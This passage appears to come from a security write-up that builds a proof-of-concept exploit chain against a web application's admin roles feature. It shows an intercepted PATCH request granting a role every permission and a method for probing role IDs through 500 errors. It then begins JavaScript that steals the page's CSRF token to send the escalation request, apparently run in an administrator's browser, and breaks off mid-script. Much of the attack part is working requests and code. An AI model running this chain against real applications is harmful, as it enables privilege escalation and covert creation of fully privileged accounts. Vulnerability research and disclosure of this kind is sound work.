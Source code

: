 We have the option to edit any of these roles. Let's select a `role` to edit:

![image](https://github.com/user-attachments/assets/4f084f3d-8140-4fdf-9ce0-665ee669c070)

From this screen, we can see that editing a role is done through the endpoint `/app/public/admin/roles/{id}/edit`, where `{id}` corresponds to the specific role ID. In this interface, we can choose the permissions we want to assign to the role. To better understand how this works, let's intercept and analyze the request using `BurpSuite`.

```
POST /app/public/admin/roles/{roleNumber} HTTP/1.1
Host: application.com
Content-Type: application/x-www-form-urlencoded
Content-Length: [calculated-length]

_method=PATCH&_token=[csrfToken]&name=PoC4Exploit&status=on&permission[]=1&permission[]=2&permission[]=3&permission[]=4&permission[]=11&permission[]=12&permission[]=13&permission[]=14&permission[]=15&permission[]=16&permission[]=17&permission[]=18&permission[]=19&permission[]=20&permission[]=21&permission[]=22&permission[]=23&permission[]=24&permission[]=25&permission[]=26&permission[]=27&permission[]=28&permission[]=29&permission[]=30&permission[]=31&permission[]=32&permission[]=33&permission[]=34&permission[]=35&permission[]=36&permission[]=37&permission[]=38&permission[]=39&permission[]=40&permission[]=41&permission[]=42&permission[]=43&permission[]=44&permission[]=45&permission[]=46&permission[]=47&permission[]=48&permission[]=49&permission[]=50&permission[]=51&permission[]=52&permission[]=53&permission[]=54&permission[]=55&permission[]=56&permission[]=57&permission[]=58&permission[]=59&permission[]=60&permission[]=61&permission[]=65&permission[]=66&permission[]=67&permission[]=68&permission[]=69&permission[]=70&permission[]=71&permission[]=72&permission[]=73&permission[]=74&permission[]=75&permission[]=76&permission[]=77&permission[]=78&permission[]=79&permission[]=80&permission[]=81&permission[]=82&permission[]=83&permission[]=84&permission[]=85&permission[]=86&permission[]=87&permission[]=88&permission[]=89&permission[]=90&permission[]=91
```

Here’s how the request appears when editing a `role` and activating all its permissions. Before adding the malicious `user`, we can strategically edit the `role` to ensure it has all permissions enabled. After modifying the role, we can then add the user with the modified `role` ID, granting the new user full access within the application.

# Chaining All Together

Now, we still need to verify whether the `role` ID exists before attempting to edit it. When we send a request to the `/app/public/admin/roles/{id}/edit` endpoint, if the `role` ID does not exist, the application responds with a `500` status code. If the response is anything other than `500`, it indicates that the `role` ID exists. The following diagram explains how we will chain all these steps together to update our code:



![image](https://github.com/user-attachments/assets/c1a753f3-57b4-4360-873e-423e44324144)



Let's Update our code:

```JS
let csrfToken = document.querySelector('meta[name="csrf-token"]').getAttribute('content');



function patchRole(roleNumber) {
    let data = new URLSearchParams();
    data.append('_method', 'PATCH');
    data.append('_token', csrfToken);
    data.append('name', 'PoC4Exploit');
    data.append('status', 'on');
    data.append('permission[]', '1');
    data.append('permission[]', '2');
    data.append('permission[]', '3');
    data.append('permission[]', '4');
```